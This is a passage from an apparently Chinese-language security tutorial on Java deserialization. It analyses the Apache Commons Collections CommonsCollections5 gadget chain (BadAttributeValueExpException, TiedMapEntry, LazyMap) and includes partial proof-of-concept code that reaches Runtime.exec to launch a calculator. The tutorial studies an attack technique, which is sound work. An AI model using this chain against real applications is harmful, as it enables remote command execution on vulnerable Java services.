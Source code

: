```java
    }

    public static void main(String[] args) {
        try {
            TiedMapEntryDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![undefined](https://p4.ssl.qhimg.com/t01a4a6c358e38e1a44.png "undefined")

### BadAttributeValueExpException
在`javax.management.BadAttributeValueExpException`类中，当`System.getSecurityManager() == null`或者`valObj`是除了`String`的其他基础类型时，都会调用`valObj`的`toString()`方法，利用这个触发点来配合前面的`TiedMapEntry`完成链子的构造。

![undefined](https://p0.ssl.qhimg.com/t01089f66e67fcc18ac.png "undefined")

## CommonsCollections5 分析
利用上面两个前置知识的触发点，配合`LazyMap`就可以完成一条新的攻击路径，也就是`CommonsCollections5`链。

### POC-1

```java
package CommonsCollections5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:59 下午
 */
public class CommonsCollections5Gadge1 {

    public static void CC5() throws ClassNotFoundException, NoSuchFieldException, IOException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry  tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
```